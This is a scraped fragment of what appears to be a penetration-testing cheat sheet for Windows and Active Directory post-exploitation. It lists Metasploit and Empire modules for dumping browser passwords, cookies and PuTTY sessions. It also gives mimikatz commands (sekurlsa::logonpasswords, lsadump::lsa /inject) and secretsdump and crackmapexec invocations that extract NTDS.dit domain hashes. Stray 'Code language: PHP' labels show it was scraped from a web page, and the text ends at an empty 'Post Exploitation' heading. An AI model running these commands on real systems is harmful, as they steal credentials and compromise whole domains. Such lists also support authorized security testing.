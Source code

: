 ```

Get-WinEvent -ListLog *

$cred = Get-Credentials
Get -WinEvent -ListLog * -ComputerName AD1 -Credentials $cred

(Get-WinEvent -FilterHashtable @{LogName = 'Security'} | Select-Object @{name='NewProcessNam
e';expression={ $_.Properties[5].Value }}, @{name='CommandLine';expression={
$_.Properties[8].Value }}).commandlineCode language: PHP (php)
```


**Password Dump**
-----------------

```


post/windows/gather/enum_chrome
post/multi/gather/firefox_creds
post/firefox/gather/cookies
post/firefox/gather/passwords
post/windows/gather/forensics/browser_history
post/windows/gather/enum_putty_saved_sessions

collection/ChromeDump
collection/FoxDump
collection/netripper
credentials/sessiongopher

privilege::debug
sekurlsa::logonpasswordsCode language: PHP (php)
```


**NTDS.dit dump**
-----------------

```

secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit -outputfile /tmp/result local
python crackmapexec.py 192.168.1.56 -u morph3 -p pass1234 -d evilcorp.com --ntds drsuapi

lsadump::lsa /injectCode language: PHP (php)
```


**Ad Environment**
------------------

[icebreaker](https://github.com/DanMcInerney/icebreaker) [bloodhound](https://github.com/BloodHoundAD/BloodHound) [adfly](https://github.com/lawrenceamer/adfly)

**Post Exploitation**
---------------------
